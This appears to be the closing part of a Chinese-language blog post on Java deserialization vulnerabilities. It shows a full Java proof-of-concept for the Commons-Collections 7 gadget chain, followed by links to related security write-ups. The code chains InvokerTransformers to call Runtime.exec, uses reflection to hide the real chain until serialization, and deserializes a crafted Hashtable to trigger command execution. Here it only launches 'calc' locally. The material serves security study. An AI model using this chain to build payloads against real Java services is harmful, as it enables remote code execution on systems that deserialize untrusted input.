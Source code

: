 | ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>51<br>52<br>53<br>54<br>55<br>56<br>57<br>58<br>59<br>60<br>61<br>62<br>63<br>64<br>65<br>66<br>67<br>``` | ```java<br>import org.apache.commons.collections.Transformer;<br>import org.apache.commons.collections.functors.ChainedTransformer;<br>import org.apache.commons.collections.functors.ConstantTransformer;<br>import org.apache.commons.collections.functors.InvokerTransformer;<br>import org.apache.commons.collections.map.LazyMap;<br><br>import java.io.*;<br>import java.lang.reflect.Field;<br>import java.util.HashMap;<br>import java.util.Hashtable;<br>import java.util.Map;<br><br>public class CommonsCollections7 {<br><br>    public static void main(String[] args) throws IllegalAccessException, IOException, ClassNotFoundException, NoSuchFieldException {<br><br>        Transformer[] fakeTransformer = new Transformer[]{};<br><br>        Transformer[] transformers = new Transformer[] {<br>                new ConstantTransformer(Runtime.class),<br>                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),<br>                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),<br>                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})<br>        };<br><br>        //ChainedTransformer实例<br>        //先设置假的 Transformer 数组，防止生成时执行命令<br>        Transformer chainedTransformer = new ChainedTransformer(fakeTransformer);<br><br>        //LazyMap实例<br>        Map innerMap1 = new HashMap();<br>        Map innerMap2 = new HashMap();<br><br>        Map lazyMap1 = LazyMap.decorate(innerMap1,chainedTransformer);<br>        lazyMap1.put("yy", 1);<br><br>        Map lazyMap2 = LazyMap.decorate(innerMap2,chainedTransformer);<br>        lazyMap2.put("zZ", 1);<br><br>        Hashtable hashtable = new Hashtable();<br>        hashtable.put(lazyMap1, "test");<br>        hashtable.put(lazyMap2, "test");<br><br><br>        //通过反射设置真的 ransformer 数组<br>        Field field = chainedTransformer.getClass().getDeclaredField("iTransformers");<br>        field.setAccessible(true);<br>        field.set(chainedTransformer, transformers);<br><br>        //上面的 hashtable.put 会使得 lazyMap2 增加一个 yy=>yy，所以这里要移除<br>        lazyMap2.remove("yy");<br><br>        //序列化<br>        ByteArrayOutputStream baos = new ByteArrayOutputStream();<br>        ObjectOutputStream oos = new ObjectOutputStream(baos);<br>        oos.writeObject(hashtable);<br>        oos.flush();<br>        oos.close();<br><br>        //测试反序列化<br>        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());<br>        ObjectInputStream ois = new ObjectInputStream(bais);<br>        ois.readObject();<br>        ois.close();<br>    }<br><br>}<br>``` |

## [](#%E5%8F%82%E8%80%83)参考

[phith0n Java 漫谈系列](https://wx.zsxq.com/dweb2/index/group/2212251881)

[Java反序列化漏洞原理解析](https://xz.aliyun.com/t/6787#toc-11)

[Java反序列化漏洞从入门到关门](https://www.freebuf.com/articles/web/271275.html)

[从0开始学Java反序列化漏洞](https://yinwc.github.io/2020/02/08/java%e5%8f%8d%e5%ba%8f%e5%88%97%e5%8c%96%e6%bc%8f%e6%b4%9e/)

[深入理解 JAVA 反序列化漏洞](https://paper.seebug.org/312/)

[Java反序列化利用链补全计划](https://0range228.github.io/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8%E9%93%BE%E8%A1%A5%E5%85%A8%E8%AE%A1%E5%88%92/)

[Commons-Collections 利用链分析](https://wx.zsxq.com/dweb2/index/group/2212251881)

[CC链 1-7 分析](https://xz.aliyun.com/t/9409)

[Java 安全学习 Day2 – ysoserial CC 系列](https://x5tar.com/posts/java-sec-day2/)

